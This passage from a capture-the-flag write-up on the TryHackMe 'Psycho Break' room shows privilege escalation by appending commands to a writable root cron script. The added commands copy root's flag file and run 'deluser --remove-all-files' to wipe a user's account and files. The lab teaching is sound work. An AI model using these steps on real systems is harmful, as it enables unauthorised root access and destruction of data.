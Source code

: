 Now, we need to wait some time and check the file `/tmp/flag` where the script will automatically write down the flag from `/root/root.txt`.

3. ##### [Bonus] Defeat Ruvik

For this task we need to delete Ruvik's account, but that can be done only by `root`. So, we can add another command in the same python script to remove the user `ruvik` along with all his files:

```
kidman@evilwithin:/home$ echo 'subprocess.call("deluser --remove-all-files ruvik", shell=True)' >> /var/.the_eye_of_ruvik.py 
kidman@evilwithin:/home$ cat /var/.the_eye_of_ruvik.py 
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)
subprocess.call("deluser --remove-all-files ruvik", shell=True)
```

Now, just wait for some time and check the `/home` directory from where ruvik's directory would get deleted indicating that the user has been deleted.

With this we have completed the room!



## Some Key Points to Take Away

1. If none of the rotations decrypt your key always try for Vigenere Cipher.
2. Whenever you need information about an image, just reverse search it on Google or Yandex.
3. Try every possible command when attempting OS command injection.
4. Whenever you get an audio file containing beeps, try to decode it as Morse Code.



#### Links Referred

1. TryHackMe-Psycho Break: https://tryhackme.com/room/psychobreak
2. CyberChef: https://gchq.github.io/CyberChef/
3. Morse Code Audio Decoder: https://morsecode.world/international/decoder/audio-decoder-adaptive.html